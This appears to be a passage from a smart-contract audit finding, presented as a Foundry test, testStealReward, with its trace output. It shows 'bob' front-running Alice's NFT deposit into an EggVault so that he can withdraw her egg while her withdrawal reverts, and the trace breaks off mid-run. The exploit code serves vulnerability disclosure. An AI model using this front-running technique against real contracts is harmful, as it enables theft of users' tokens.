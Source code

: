 ```solidity

    // bob perform a front-running attack
    vm.prank(bob);
    vault.depositEgg(1, bob);

    // alice can not withdraw
    vm.prank(alice);
    vm.expectRevert("Not the original depositor");
    vault.withdrawEgg(1);

    // bob can withdraw
    vm.prank(bob);
    vault.withdrawEgg(1);
}
```

#### Output

```bash
[PASS] testStealReward() (gas: 257348)
Traces:
  [326950] EggGameTest::testStealReward()
    ├─ [7768] EggHuntGame::setEggFindThreshold(100)
    │   └─ ← [Stop] 
    ├─ [52131] EggHuntGame::startGame(10000 [1e4])
    │   ├─ emit GameStarted(startTime: 1, endTime: 10001 [1e4])
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(ECRecover: [0x0000000000000000000000000000000000000001])
    │   └─ ← [Return] 
    ├─ [124671] EggHuntGame::searchForEgg()
    │   ├─ [72259] EggstravaganzaNFT::mintEgg(ECRecover: [0x0000000000000000000000000000000000000001], 1)
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: ECRecover: [0x0000000000000000000000000000000000000001], tokenId: 1)
    │   │   └─ ← [Return] true
    │   ├─ emit EggFound(player: ECRecover: [0x0000000000000000000000000000000000000001], tokenId: 1, totalEggsFound: 1)
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [1071] EggstravaganzaNFT::ownerOf(1) [staticcall]
    │   └─ ← [Return] ECRecover: [0x0000000000000000000000000000000000000001]
    ├─ [0] VM::assertEq(ECRecover: [0x0000000000000000000000000000000000000001], ECRecover: [0x0000000000000000000000000000000000000001]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::prank(ECRecover: [0x0000000000000000000000000000000000000001])
    │   └─ ← [Return] 
    ├─ [28845] EggstravaganzaNFT::transferFrom(ECRecover: [0x0000000000000000000000000000000000000001], EggVault: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], 1)
    │   ├─ emit Transfer(from: ECRecover: [0x0000000000000000000000000000000000000001], to: EggVault: [0x2e234DAe75C793f67A35089C9d99245E1C58470b], tokenId: 1)
    │   └─ ← [Stop] 
    ├─ [0] VM::prank(SHA-256: [0x0000000000000000000000000000000000000002])
    │   └─ ← [Return] 
    ├─ [50855] EggVault::depositEgg(1, SHA-256: [0x0000000000000000000000000000000000000002])
    │   ├─ [1071] EggstravaganzaNFT::ownerOf(1) [staticcall]
    │   │   └─ ← [Return] EggVault: [0x2e234DAe75C793f67A35089C9d99245E1C58470b]
    │   ├─ emit EggDeposited(depositor: SHA-256: [0x0000000000000000000000000000000000000002], tokenId: 1)
    │   └─ ← [Stop] 
    ├─ [0] VM::prank(ECRecover: [0x0000000000000000000000000000000000000001])
    │   └─ ← [Return] 
    ├─ [0] VM::expectRevert(custom error 0xf28dceb3:  Not the original depositor)
    │   └─ ← [Return] 
```